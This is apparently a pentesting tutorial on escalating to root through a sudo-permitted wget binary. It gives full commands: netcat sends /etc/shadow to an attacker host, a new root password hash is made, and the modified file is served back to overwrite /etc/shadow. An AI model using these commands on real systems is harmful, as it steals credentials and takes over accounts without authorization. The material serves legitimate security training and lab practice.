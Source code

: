 Get **"/etc/shadow"** and generate a new hash passwd, then set it to the shadow file, next upload it.  
That changes the root password.

First, check the current user's privileges.  
If you find that 'wget' is executable as root, you can abuse /etc/shadow and create a new root user.

```sh
sudo -l
(root) NOPASSWD: /usr/bin/wget
```

Open listener in local machine.

```sh
nc -lvnp 4444
```

In target machine, display the contents of the **"/etc/shadow"** to the local machine using the following command.  
Then you can see the contents of the **"/etc/shadow"** via the listener you opened with Netcat.

```sh
sudo /usr/bin/wget --post-file=/etc/shadow <local-ip> 4444
```

Next, copy the above output into the file in the local machine.

```sh
vim shadow.txt
```

Generate a new hash password for a new root user in local machine.  
You will create a new root user in a later section.

```sh
openssl passwd -6 -salt salt password
```

Copy the generated password and paste it at the password of the root user into the **"shadow.txt"**.  
As a result, the contents of the **"shadow.txt"** should look like this:

```sh
root:$6$salt$IxDD...DCy.g.:18195:0:99999:7:::
...
```

To put the **shadow.txt** into the target machine, start web server for hosting this file.

```sh
python3 -m http.server 8000
```

Download this file into the **/etc/shadow** in remote machine. To do that, you need to run as root.

```sh
sudo /usr/bin/wget http://<local-ip>:8000/shadow.txt -O /etc/shadow 
```

Finally, you can switch to the root user with the password you created.
